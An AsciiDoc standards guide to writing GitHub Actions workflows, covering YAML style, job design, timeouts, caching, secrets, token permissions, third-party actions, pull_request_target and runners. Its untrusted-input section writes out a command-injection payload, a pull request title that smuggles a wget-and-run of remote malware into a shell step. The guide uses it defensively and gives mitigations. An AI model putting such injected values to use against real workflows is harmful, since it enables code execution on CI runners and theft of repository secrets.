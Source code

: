 = TS-X GitHub Actions Standards
:toc: macro
:toc-title: Contents

:link-docs-concurrency: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#concurrency
:link-docs-permissions: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#permissions
:link-docs-security: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions
:link-docs-security-lab: https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/

This document serves as a collection of best practices for using (and making)
GitHub Actions.

toc::[]

== YAML syntax

////
TODO: Link to YAML best practices
////

=== Readability

Actions and workflows are defined in YAML files. YAML is designed to be a
human-readable, as well as a machine-parsable, data serialization format. YAML
files SHOULD, therefore, be written primarily with readability in mind.

Consideration should also be given to the maintenance of YAML files. Give
thought, for example, to how diffs will be presented in source control and
pull request systems. For example, because Git is a line-based version control
system, it is best practice to use YAML's multi-line syntax for lists. So,
instead of:

[source,yaml]
----
on:
  push:
    branches: [ "main" ]
  pull_request:
    branches: [ "main" ]
----

This is better:

[source,yaml]
----
on:
  push:
    branches:
      - main
  pull_request:
    branches:
      - main
----

=== Inline documentation

YAML comment syntax SHOULD be used to document anything that is not intuitively
understood from the YAML data structure and the workflow/action schema.

== General guidelines

* Keep workflows modular. Break down workflows into smaller jobs and steps.
  This will make it easier to manage conditions and dependencies.

* Test workflows thoroughly. Ensure that conditional logic and job dependencies
  work as expected by testing different scenarios.

== Naming conventions

// TODO: conventions for secrets, config vars, and env vars.

Choose descriptive and meaningful names for your secrets and variables. It
SHOULD NOT be necessary to consult any out-of-band documentation to understand
the purpose of a secret or variable referenced in a workflow. If the meaning
of a variable cannot be easily deduced from its name and context, include
an adjacent comment to explain its purpose.

Names for workflows, jobs and steps should also be clear and consistent.

== Workflows/actions schema

=== Jobs

A single job may, for example, compile, test and deploy an application. Though
convenient, it is generally considered to be best practice for each job
definition to be responsible for a single concern, and for complex workflows
to be composed from multiple single-responsibility jobs. This has a number of
advantages, for example workflows are easier to extend and maintain, and logging
output is easier to analyze.

=== Steps

All steps SHOULD be given a unique name. This will help to identify the output
of each step in the logs, and make it easier to debug failed workflows.

[source,yaml]
----
steps:
  - name: Say hello
    run: echo "Hello, world!"
----

=== Expressions

Expressions are commonly used in `if` attributes to make execution of an
individual step or a whole job conditional.

[source,yaml]
----
jobs:
  production-deploy:
    if: github.repository == 'owner/repo' && github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - uses: actions/setup-node@v2
        with:
          node-version: '14'
      - run: npm install -g bats
----

The value of the `if` attribute is treated as a JavaScript expression, rather
than a string value. Expressions can be used in other attributes, which assume
string values by default, using the `${{ <expression> }}` notation. Even in
`if` values, if the expression starts with `!`, the whole expression MUST be
encapsulated in the `${{ }}` syntax, or escaped with `''`, `""`, or `()`.
That's because the exclamation mark is reserved notation in YAML.

For consistency, it is RECOMMENDED the `${{ <expression> }}` syntax be used to
wrap all expressions, even those in `if` values where this syntax is not
required.

[source,yaml]
----
jobs:
  production-deploy:
    if: ${{ github.repository == 'owner/repo' && github.ref == 'refs/heads/main' }}
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - uses: actions/setup-node@v2
        with:
          node-version: '14'
      - run: npm install -g bats
----

== Performance

=== Minimalism

Keep individual workflows, and reusable actions, as minimal as possible. The
more time something takes to set up and run, the higher the costs of running
your CI/CD infrastructure. Even shaving a few seconds off the run of a
workflow can add up to significant cost savings over a month, a year.

Prefer lightweight actions over heavyweight ones. Prefer JavaScript actions
over container actions, and best of all are composite actions consisting of
simple shell scripts. Where container actions are essential – for example where
you require a specific programming language or toolchain – prefer to use light
images, such as alpine or alpine-node, over heavy ones.

Don't install unnecessary dependencies.

=== Caching

Be sure to use caching wherever possible. Have package managers cache
dependencies, and cache any generated artifacts that can be reused between
jobs or workflow runs.

=== Timeouts

By default, GitHub kills jobs after 6 hours if they have not finished by
then. Many jobs don't need nearly as much time to finish, but sometimes
jobs can hang and the extended run consumes unnecessary minutes, which has a
cost.

It is RECOMMENDED to specify shorter timeouts that are appropriate for each job.
This is specified in minutes via the `jobs.<job_id>.timeout-minutes` attribute.
Example:

[source,yaml]
----
jobs:
  set_config:
    timeout-minutes: 30
    runs-on: ubuntu-latest
    steps:
      - [...]
----

=== Concurrency

It is RECOMMENDED to implement a concurrency strategy for workflows, especially
long-running, resource-intensive ones. This will cancel running workflows in the
same group when an event triggers a new run of the same workflow. For example,
you can automatically cancel intermediate builds on a PR when a newer commit
gets pushed to the PR's source branch.

[source,yaml]
----
concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: ${{ startsWith(github.ref, 'refs/pull/') }}
----

See the {link-docs-concurrency}[GitHub Docs] for further guidance.

== Security

See also {link-docs-security}[GitHub's Security Hardening for GitHub Actions]
guide, and also the series of posts on {link-docs-security-lab}[GitHub's
Security Lab] blog starting with "part 1: preventing pwn requests".

=== Secrets

Do not hard-code API keys, tokens, passwords, or other such secrets in workflow
files, even if those files are committed to private repositories.

All sensitive data MUST be managed via GitHub Secrets. GitHub Secrets provides a
safe way to store and use secrets in your workflows.

[TIP]
======
CI workflows are also a good place to implement secrets detection using tools
like https://github.com/GitGuardian/ggshield-action[GitGuardian].
======

Secrets SHOULD be regularly rotated, and unused ones deleted. Restrict who has
permissions to create and update secrets.

Do not use complex data types for storing secrets. Secrets SHOULD be
primitive values such as strings or numbers.

[source,txt]
----
# Good
SENSITIVE_VALUE1 = "abcdef"
SENSITIVE_VALUE2 = 123456

# Bad
{
  "sensitiveValue1": "abcdef",
  "sensitiveValue2": 123456
}
----

Be sure to mask any generated sensitive values in log output. Review the source
code of third party actions to make sure they do the same.

[source,yaml]
----
echo "::add-mask::$GENERATED_SENSITIVE_VALUE"
----

=== Tokens and long-lived secrets

Avoid storing tokens and other long-lived secrets where possible. For example,
rather than using API keys to authenticate with your infrastructure providers,
prefer using OpenID Connect (OIDC).

.How to use OpenID Connect
****
The following steps are done in your cloud provider:

1.  Create a role to be use by the workflows. The role should contain the
    minimum set of permissions for the workflows to accomplish their tasks.

2.  Create an OIDC trust in the cloud provider. The trust should specify which
    repositories are allowed to obtain tokens, as well as any additional
    information necessary to increase security.

The following steps are done in the GitHub Actions workflows:

1.  Exchange GitHub's OIDC token for credentials. There are severeal actions
    available from the marketplace that implement this exchange process.

2.  Use the short-lived credential to manage resources. The short-lived
    credentials will be valid only for a single job, and will expire after that.
****

DO NOT use classic Personal Access Tokens (PATS) to grant workflow access to
code form another repository. Ideally, create a GitHub App and use its
short-term credentials. If needed, use a fine-grained PAT and give it as few
permissions as necessary for the workflow to do its job (ie. only read access,
only to the necessary repos).

When using a fine-grained PAT, rotate it regularly, and remember that it is
bound to a specific user (so you might want to create a generic shared user
account against which to create PATs).

=== Restricting permissions

By default, `GITHUB_TOKEN`, which is automatically generated on each run, is
given wide-ranging permissions to GitHub resources and operations. The principle
of least privilege should be applied to these tokens, which means restricting
permissions to the minimum required to do the job.

Permissions SHOULD be explicitly restricted on a per-workflow basis using
the `permissions` attribute.

[source,yaml]
----
name: Open new issue
on: workflow_dispatch

jobs:
  open-issue:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      issues: write
    steps:
      - run: |
          gh issue --repo ${{ github.repository }} \
            create --title "Issue title" --body "Issue body"
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
----

See the GitHub Docs for a full {link-docs-permissions}[list of available
permissions].

[IMPORTANT]
======
DO NOT pass the workflow's `$GITHUB_TOKEN` to untrusted third-party software,
including custom actions from untrusted sources.
======

=== Minimal scope

To limit their scope, environment variables should be declared at the step
level wherever possible. Elevate them to the job or (rarely) the workflow
level only to solve the problem of sharing data between steps within a job,
and between jobs within a workflow.

=== Untrusted input

Don't directly reference values you don't control. Consider the following
example:

[source,yaml]
----
- name: lint
  run: |
    echo "${{github.event.pull_request.title}}" | commitlint
----

This allows for injection of malicious code into the workflow. For example,
raising a PR with the following title...

[source,txt]
----
a" && wget https://example.com/malware && ./malware && echo "Title
----

... would cause the following code to be executed in your runner:

[source,txt]
----
echo “a" && wget https://example.com/malware && ./malware && echo "Title” | commitlint
----

The pull request body is also untrusted, as are all of the following event
context data:

* `github.event.issue.title`
* `github.event.issue.body`
* `github.event.pull_request.title`
* `github.event.pull_request.body`
* `github.event.comment.body`
* `github.event.review.body`
* `github.event.pages.*.page_name`
* `github.event.commits.*.message`
* `github.event.head_commit.message`
* `github.event.head_commit.author.email`
* `github.event.head_commit.author.name`
* `github.event.commits.*.author.email`
* `github.event.commits.*.author.name`
* `github.event.pull_request.head.ref`
* `github.event.pull_request.head.label`
* `github.event.pull_request.head.repo.default_branch`
* `github.head_ref`

There are two possible solutions. The RECOMMENDED one is to create custom
actions with input arguments, rater than executing inline shell scripts:

[source,yaml]
----
uses: fakeaction/printtitle@v3
with:
  title: ${{ github.event.pull_request.title }}
----

Alternatively, bind the value to an intermediate environment variable:

[source,yaml]
----
- name: Print title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: |
    echo "$PR_TITLE"
----

[NOTE]
======
It is best practice to double-quote shell variable to avoid word splitting.
This practice is relevant to shell scripting in general, and is not specific
to GitHub Actions.
======

More generally, be cautious when using any external input in your workflows.
For example, avoid using untrusted data in API calls where the data could be
interpreted as code (script injection). Likewise, try as much as possible to
avoid using untrusted data as input to custom actions.

Finally, use code scanning tools to detect potential injection attacks.

=== Consuming open source actions

There are many open source GitHub Actions that can be plugged in to your own
workflows. However, just like with any open source software, open source actions
MUST be carefully audited before integrating them into your development
toolchain. The risks are similar to using package managers to automate the
integration of third party components into your applications.

The following steps are RECOMMENDED when using third-party actions:

* Use only actions that are actively maintained. Check that bugs are triaged
  and fixed, and that security vulnerabilities are patched, quickly.

* Use only actions that are published to the GitHub Marketplace, and only actions
  that have been verified by GitHub.

* Review the action's `action.yml` file for inputs and outputs, and check that
  the code does what it says it does.

* Include a specific version of the action, which you have audited. Best practice
  is to specify a commit SHA, rather than a branch or version tag. This ensures
  that the action's code is locked down and cannot be changed without you
  explicitly updating the version referenced from your workflow configuration,
  protecting you from supply-chain compromises.

[source,yaml]
----
- name: Checkout code
  uses: actions/checkout@a12a3943b4bdde767164f792f33f40b04645d846
----

=== External PRs

For public repositories, do not check out the code when using the
`pull_request_target` event.

[source,yaml]
----
on: pull_request_target
#...
  - uses: actions/checkout@v3
    with:
      ref: ${{ github.event.pull_request.head.sha }}
----

Normally, workflow runs triggered from forks do not have access to secrets,
or write access to the repository, because the runs happen in the context of the
_base_ branch of the PR. However, the `pull_request_target` event is a special
case. GitHub introduced this event type at the request of the open source
community so that workflows could be run in the context of the _target_ branch
of a PR. But this has important security implications.

Using the `pull_request_target` events means the workflow will have access to
your secrets and write access to your code. Iff the workflow is also checking out
and running code from the repository, that code can't be trusted because it has
come from the external contributor. You're opening up your workflow to remote
code execution.

This security vulnerability is known as a "Pwn Request". It is a type of attack
where an attacker forks a public repository, creates a pull request to the
original repository, and then triggers a workflow run on the original repository
that checks out the attacker's code. The attacker can use their own code in the
context of the original repository. This could be used to extract secrets,
modify the repository's code, or even take over the repository.

Therefore, whenever you use `pull_request_target` in a workflow, the workflow's
jobs MUST NOT check out, build, or run the repository's code. All code executed
in a `pull_request_target` workflow MUST be defined within the workflow
configuration itself.

There is more detail on this attack vector on {link-docs-security-lab}[GitHub's
Security Lab] blog.

For all other workflow triggers in public repositories, it is RECOMMENDED to
disable automatic workflow runs from forks. Workflows on pull requests to
public repositories from _first-time_ outside contributors will not run
automatically by default. It is strongly RECOMMENDED that you disable automatic
workflow runs triggered by external contributors all of the time. This means
that project maintainers can review code in external PRs before triggering the
CI to run on those changes. Workflow approval requirements can be configured for
a repository, organization, or at the enterprise level.

More generally, when adding workflows to public repositories, consider the
security implications by asking the following questions:

* What events could trigger a workflow run?
* What code is running in the running?
* What data and secrets does that code access?
* Where did that code come from? Can it be trusted?

=== Self-hosted runners

Use self-hosted runners only for workflows in private repositories. Anything
that `runs-on: self-hosted` runners MUST also be kept private.

This is because, if in a public repository, third parties could run malicious
code on your self-hosted runners by forking the public repository and then
creating a pull request. The workflow would run in the context of the PR's base
branch, which is considered untrusted. The attacker could modify the workflow's
code, and this will be executed on your infrastructure (your self-hosted
runner).

If you are using self-hosted runners, you are fully responsible for hardening
your infrastructure to keep it secure from malicious use like this, for example
by:

* Configuring a dedicated low-privilege user.
* Using isolated and ephemeral workloads to execute the jobs.
* Implementing logging and monitoring to ensure visibility.

But the ultimate security is to make sure that your self-hosted runners can only
be used by trusted users inside your organization. That means keeping private
the workflows and actions that run on them.

[NOTE]
======
GitHub doesn't allow personal accounts to use self-hosted runners on public
repositories, but they do allow organizations to do so.
======

=== GitHub-hosted runners

It is recommended to pin workflows to specific runner versions, such as
`ubuntu-22.04` rather than `ubuntu-latest`. This means you must manually
update workflow configurations when old runner versions are deprecated,
but the tradeoff is your workflows will be more stable in the meantime.
(This is less an issue of security, more an issue of maintenance.)

[source,yaml]
----
# Prefer:
runs-on: ubuntu-22.04

# To:
runs-on: ubuntu-latest
----
